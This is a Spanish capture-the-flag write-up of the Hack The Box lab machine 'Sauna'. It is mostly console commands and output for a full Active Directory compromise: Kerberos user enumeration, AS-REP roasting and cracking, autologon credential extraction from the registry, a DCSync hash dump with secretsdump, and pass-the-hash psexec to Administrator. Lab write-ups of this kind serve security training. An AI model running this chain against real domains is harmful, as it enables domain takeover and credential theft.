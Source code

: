 # Sauna - 10.10.10.175
----------------------

Puertos abiertos: 80(http),88(kerberos),53(dns),135(rpc),139,389,445(smb),464,593,636,3269,3268,5985(winrm),9389
```console
└─$ crackmapexec smb 10.10.10.175
SAUNA [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```
```console
└─$ dig @10.10.10.175 egotistical-bank.local mx
sauna.egotistical-bank.local. hostmaster.egotistical-bank.local
```
```console
└─$ rpcclient -U "" -N 10.10.10.175 -c 'enumdomusers' 
result was NT_STATUS_ACCESS_DENIED
```

En la web apenas hay un formulario de contacto inutil.
De single.html sacamos nombres -> Jenny Joy, James Doe, Jhonson y Watson
De contact us tambien -> Fergus Smith, Shaun Coins, Bowie Taylor, Sophie Driver, Hugo Bear, Steven Kerb

```console
└─$ whatweb http://10.10.10.175
HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.175], Microsoft-IIS[10.0], Script, Title[Egotistical Bank :: Home]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt http://10.10.10.175/FUZZ
# Nada

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.175/FUZZ
000000002:   403        29 L     92 W       1233 Ch     "images"                                             
000000536:   403        29 L     92 W       1233 Ch     "css"                                                
000002757:   403        29 L     92 W       1233 Ch     "fonts" 
```

```console
└─$ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local /usr/share/seclists/Usernames/Names/names.txt
# Nada
```
Con los usuarios que habiamos conseguido hacemos un diccionario tal que cada nombre tenga mas de una manera de
ser escrito: ```Fergus Smith -> FergusSmith fsmith```


```console
└─$ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
2023/01/14 12:02:52 >  [+] VALID USERNAME:	fsmith@egotistical-bank.local

└─$ impacket-GetNPUsers egotistical-bank.local/fsmith -no-pass
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:246e70
```

```console
└─$ john hash -w=/usr/share/wordlists/rockyou.txt       
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

```console
└─$ crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23

└─$ crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
*Evil-WinRM* PS C:\Users\FSmith\Documents> copy //10.10.14.7/carpeta/win_enum_xii.bat
*Evil-WinRM* PS C:\Users\FSmith\Documents> cmd /c win_enum_xii.bat
```

Encontramos credenciales autologon:
comando -> ```reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon" 2>nul | findstr "DefaultPassword DefaultUserName"```

```
"[Autologon]"
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```


```console
└─$ evil-winrm -i 10.10.10.175 -u 'svc_loanmanager' -p 'Moneymakestheworldgoround!'
# No funciona
└─$ evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
# Asi si
```

Para mirar una posible escalada de privilegios:
```console
└─$ bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -c All -ns 10.10.10.175 -d egotistical-bank.local -dc egotistical-bank.local --zip
# Nos crea 4 archivos json que subiremos al bloodhound
```
En > OUTBOUND OBJECT CONTROL > First Degree Object Control Nos aparece DCSync, es un permiso sobre el dominio
que nos permite leer las contraseñas hasheadas de todo el mundo.

El ataque DCSync lo que hace es usar el Directory Replication Service Remote Protocol (MS-DRSR) para comportarse 
como un Domain Controller y pedirle información al resto de Domain Controllers (como por ejemplo credenciales)
Para realizar dicho ataque se requiere una cuenta con "Domain replication privileges"

```console
└─$ impacket-secretsdump egotistical.bank.local/svc_loanmgr@10.10.10.175
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::

└─$ impacket-psexec egotistical.bank.local/Administrator@10.10.10.175 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
C:\Windows\system32>
```

